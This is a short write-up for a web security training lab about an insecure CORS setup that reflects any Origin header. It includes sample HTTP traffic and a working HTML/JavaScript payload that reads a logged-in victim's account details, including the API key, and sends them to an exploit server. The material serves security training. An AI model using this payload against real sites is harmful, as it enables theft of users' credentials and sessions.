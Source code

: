 # 1 - Basic Origin Reflection

### Notes

This website has an insecure CORS configuration in that it trusts all origins.

When an Origin header with any value is added to requests to `/accountDetails`, the application echoes it in the `Access-Control-Allow-Origin` response header.

```http
GET /accountDetails HTTP/1.1

Origin: https://random-website.com
```

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://random-website.com
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "jFjdQBJldim1j7cv1Zm8C0BiImuskK5U",
  "sessions": [
    "2K43vdr9uBieBO6hKPxign5cBBk0RkHv"
  ]
}
```

### Solution

The following payload, delivered to the user, can be used to log their API key in the lab's exploit server:

```html
<html>
  <body>
    <script>
      const xhr = new XMLHttpRequest()
      const labUrl = 'https://acb81fbb1f7d870ec0f52ab300bf0064.web-security-academy.net'

      xhr.onreadystatechange = () => {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          fetch('/log?key=' + xhr.responseText)
        }
      }

      xhr.open('GET', `${labUrl}/accountDetails`, true)
      xhr.withCredentials = true

      xhr.send(null)
    </script>
  </body>
</html>

```
